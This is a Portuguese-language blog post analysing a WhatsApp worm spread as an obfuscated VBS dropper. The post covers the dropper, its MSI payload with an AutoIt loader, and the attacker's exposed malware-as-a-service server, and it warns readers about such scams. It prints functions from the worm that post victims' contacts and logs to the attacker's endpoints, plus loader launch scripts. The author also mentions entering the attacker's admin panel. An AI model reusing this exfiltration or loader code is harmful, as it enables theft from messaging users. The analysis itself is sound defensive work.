










Aviso: Este artigo é exclusivamente para fins educacionais e de pesquisa em segurança da informação, tambem como forma de alerta sobre golpes e malwares distribuídos na internet. A análise foi realizada em um ambiente controlado, sem qualquer tipo de atividade ilegal e todas informações coletadas e acessadas estavam públicas, para acesso de qualquer usuário. Não incentivo, apoio ou compactuo com qualquer atividade de hacking, invasão, exploração ou uso de malware sem a devida autorização e os requisitos legais apropriados.
Introdução
Recentemente, uma pessoa próxima a mim recebeu um arquivo suspeito no WhatsApp de uma pessoa desconhecida, ela estranhou e me enviou para analisar. Logo, já reconheci como sendo aqueles "Worms" de WhatsApp que se utilizam de phishing em massa para infectar pessoas.
Decidi então fazer uma rápida análise.
O arquivo vinha em formato .vbs, o que indica que é um script em Visual Basic
A mensagem chega em tom de urgência, justamente para afetar pessoas que estão com o dia cheio e prazos atrasados, ele sabe que elas não vão conseguir raciocinar antes de clicar em abrir.
Jogando o arquivo no VirusTotal, vemos que apenas 10 AVs detectaram o arquivo como malicioso
HASH MD5: E76BA682C7C3D8D190AB089595BB70E5
HASH SHA256: C2F431E24127D4735C28A2074C75C612092A12EBB7294A5CBB0230C3274AA0E7Ao iniciar a análise do arquivo .vbs, vemos que ele se encontra ofuscado com aritmética em valores ASCII e operações matemáticas completamente desnecessárias.
Possuindo também o nome de variáveis ofuscadas e códigos inuteis. Pedi a IA para me fazer um código para uma rápida desofuscação, e de fato, funcionou.
import re
data = """ARRAY HERE"""
parts = [p.strip() for p in data.split(",")]
decoded = ""
for p in parts:
try:
n = eval(p)
decoded += chr(n)
except Exception:
pass
print(decoded)Após desofuscar o malware, vemos sua real funcionalidade:
Ele é um dropper, baixando um instalador MSI do domínio
empautlipa[.]com/altor/installer.msi
Assim, vemos que ele tem prováveis duas fases
1. Espalhar o malware para contatos do WhatsApp da vítima
2. Instalar um trojan na máquina da vítima
Whatsapp Worm
Começamos analisando o arquivo vbiud.py, ou melhor, whats.py. Esse código Python contém todo o "core" de comunicação com o WhatsApp e automação de ações
O fluxo funciona assim:
O atacante inicia o browser com o WhatsApp Web da vítima -> Exfiltra dados via APIs da URL maliciosa -> Gera mensagens automatizadas -> Espalha o malware para todos os contatos
Típico desses "worms" de WhatsApp baseados em engenharia social que vemos acontecendo recentemente.
Dentro do código, vemos outras funções interessantes para o envio de dados, como vemos nessa função de logs aqui abaixo:
def send_log(self, tipo: TipoLog, mensagem: str, detalhes: str = ""):
"""Envia log para o console e servidor"""
# Cores para o console
cores = {
TipoLog.ERRO: '\033[91m',
TipoLog.SUCESSO: '\033[92m',
TipoLog.AVISO: '\033[93m',
TipoLog.INFO: '\033[90m',
TipoLog.INICIO: '\033[96m',
TipoLog.FIM: '\033[96m'
}
reset_cor = '\033[0m'
timestamp = datetime.now().strftime("%H:%M:%S")
cor = cores.get(tipo, '')
print(f"{cor}[{timestamp}] {mensagem}{reset_cor}")
if detalhes:
print(f" {detalhes}")
# Enviar para servidor
try:
dados = {
'session_id': SESSION_ID,
'nome_maquina': NOME_MAQUINA,
'tipo': tipo.value,
'mensagem': mensagem,
'detalhes': detalhes,
'timestamp': datetime.now().strftime("%Y-%m-%d %H:%M:%S")
}
requests.post(PHP_LOG_ENDPOINT, data=dados, timeout=3)
except:
passAssim, conseguimos imaginar como deva ser o painel do atacante:
-- Painel de Controle do Atacante: --
[14:23:45] PC-JOAO-2024 | ▶ Sistema iniciado
[14:23:47] PC-MARIA-DESKTOP | ✓ WhatsApp carregado
[14:24:02] NOTEBOOK-PEDRO | ⏸ Envio pausado
[14:24:15] PC-ANA-HOME | ✓ 247 contatos enviados ao servidorEle também faz a exfiltração de contatos da vítima, com a função tendo um nome bem sugestivo.
def enviar_contatos_para_servidor(self, contatos: List[Contato]):
"""Envia os contatos obtidos do WhatsApp para o servidor PHP"""
self.send_log(TipoLog.INFO, "Enviando contatos para o servidor")
try:
# Preparar dados para envio
contatos_json = []
for c in contatos:
contatos_json.append({
'numero': c.numero,
'nome': c.nome
})
dados = {
'session_id': SESSION_ID,
'nome_maquina': NOME_MAQUINA,
'contatos': json.dumps(contatos_json),
'total': len(contatos),
'timestamp': datetime.now().strftime("%Y-%m-%d %H:%M:%S")
}
# Enviar para o servidor
response = requests.post(PHP_CONTACTS_ENDPOINT, data=dados, timeout=10)
if response.status_code == 200:
try:
result = response.json()
if result.get('success'):
self.send_log(TipoLog.SUCESSO, f"✓ {len(contatos)} contatos enviados ao servidor")
else:
self.send_log(TipoLog.AVISO, "Servidor recebeu mas retornou erro")
except:
# Se não for JSON, assumir que foi enviado com sucesso
self.send_log(TipoLog.SUCESSO, "✓ Contatos enviados ao servidor")
else:
self.send_log(TipoLog.AVISO, f"Servidor retornou status {response.status_code}")
except Exception as e:
self.send_log(TipoLog.AVISO, f"Não foi possível enviar contatos ao servidor: {e}")
# Não é crítico se não conseguir enviar para o servidorBom, resumidamente é isso: ele se comunica com uma API do domínio malicioso para enviar e receber dados, faz a exfiltração de dados e espalha o malware para os contatos utilizando APIs. Agora, vamos dar uma olhada no .msi que ele baixa.
MSI
Também jogamos ele no VirusTotal e 11 AVs o sinalizam como malicioso.
Iniciamos fazendo o desempacotamento do arquivo .msi
lessmsi.exe x .\installer.msiArquivos .msi ou "Microsoft Installer", são pacotes de instalação padronizada do Windows, neles contêm arquivos, informações de configurações e instalações necessárias para instalar, atualizar ou remover um software.
Diferente de um .exe comum, o .msi é um pacote de instalação estruturado, processado pelo Windows Installer, funcionando como um banco de dados com tabelas definindo arquivos, ações e configurações.
Enquanto um binário executável costuma exigir engenharia reversa ou decompilação, o .msi não é decompilado, ele é apenas extraído e analisado como um conjunto de tabelas e arquivos.
Abaixo está a estrutura de arquivos após desempacotamento
C:\USERS\RAVEN\DESKTOP\MALWARES\WPP-VBS\INSTALLER
└───SourceDir
└───Public
└───S4FSystems.S2D.65045730.8622.886
8LOG39.tda
8N3BdM.dmp
feR0UqbB.exe
kajr.bat
kajr.vbs
kvHeRzDt.log
libeay32.dll
sk4d.dll
ssleay32.dllAutoIt
Ele contém um executável feR0UqbB.exe, que na realidade é um AutoIt3.
AutoIt3 é uma linguagem de script usada para automatizar tarefas no Windows, como simular cliques de mouse e pressionamentos de teclas. Malwares podem usar o AutoIt compilado para automatizar/empacotar payloads.
MD5 AutoIt: 279274F8A137BF31425A9C2C14444B66
SHA256 AutoIt: bdd2b7236a110b04c288380ad56e8d7909411da93eed2921301206de0cb0dda1Damos uma olhada no conteúdo do .bat e do .vbs
type .\kajr.vbs
Set WshShell = CreateObject("WScript.Shell")
WshShell.CurrentDirectory = "C:\Public\S4FSystems.S2D.65045730.8622.886"
WshShell.Run "feR0UqbB.exe kvHeRzDt.log", 0, False
Set WshShell = Nothing
type .\kajr.bat
@echo off
cd /d "C:\Public\S4FSystems.S2D.65045730.8622.886"
start "" "C:\Public\S4FSystems.S2D.65045730.8622.886\feR0UqbB.exe" "C:\Public\S4FSystems.S2D.65045730.8622.886\kvHeRzDt.log"
exitAmbos passam o arquivo kvHeRzDt.log como argumento para o AutoIt, então deve ser ali que muito provavelmente se encontra o código malicioso.
Para entender melhor o que ele faz, teríamos que realizar uma análise dinâmica, mas infelizmente não estou com todo esse tempo, então parto para ver como funciona o domínio do atacante, só por curiosidade.
Domínio Malicioso
Entrando no domínio ele já começa efetuando downloads em nossa página, mas como vemos no código, existem alguns endpoints interessantes.
/api/contacts.php
/api/logs.php
/api/api.php
/api/config.phpBuscando um pouco mais, descobrimos arquivos de log com mais de 2GB expostos na aplicação, assim nos permitindo ver todas as requisições feitas, incluindo as do atacante.
172.69.138.215 - - [06/Nov/2025:18:48:19 +0000] "GET /api/contacts.php?action=sessoes&_=1762454900466 HTTP/1.1" 200 37 "https://empautlipa.com/dashboard.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36 Edg/142.0.0.0"Analisando os logs, vemos alguns endpoints interessantes, sendo um deles altamente preocupante!
Um dos endpoints estava expondo uma lista com TODAS as pessoas infectadas, onde o atacante utilizava apenas como uma forma de visualização gráfica de sessões ativas.
Vemos que ele também coleta informações bancárias das vítimas, provavelmente roubando acesso e dados bancários:
Pelo o menos mais de 6 mil pessoas foram infectadas por esse malware, o que é alarmante. Voltando a análise, descobrimos que existe um endpoint de login
E que existe um endpoint para upload de arquivos .msi aberto sem necessidade de autenticação, ou seja, qualquer um pode colocar um arquivo desse tipo ali.
Analisando a aplicação mais a fundo, percebemos que se trata de um MaaS (Malware as a Service) com direito a tutoriais
Descobri mais códigos maliciosos ofuscados depois de baixar alguns arquivos:
Enfim, provavelmente mais do mesmo. Após algumas buscas, consegui encontrar algumas coisas interessantes, coisas essas, que me permitiram acessar o painel administrativo
Vemos que existem algumas funções que estão disponíveis lá dentro
Com esse exemplo, vemos como uma engenharia social em massa pode afetar diversos desavisados. Esse tipo de ataque é extremamente perigoso! Pois se espalha rapidamente, e vendo o quão fraca é a segurança do próprio cibercriminoso, sabemos que pra eles isso tudo é descartável.
O cara que contratou esse serviço provavelmente nem deve saber mexer nesse painel direito, e é apenas um amador. O verdadeiro problema é o cara que construiu isso, pois isso vai se repetir diversas vezes, se esse domínio cair outros 10 vão subir e assim sucessivamente.
Por isso, é importante alertar as pessoas próximas a nós sobre os perigos que existem ao receber qualquer tipo de arquivo não esperado (ou até esperado) em redes sociais e aplicativos de mensagem, como o WhatsApp.
No caso, o malware afetava apenas especificamente o WhatsApp Web em computadores Windows, o que salvou muitas pessoas de serem infectadas. Eu gostaria também de analisar o executável e o código malicioso que ele chama em tempo de execução, mas, tenho minhas obrigações a cumprir, então não irei além disso.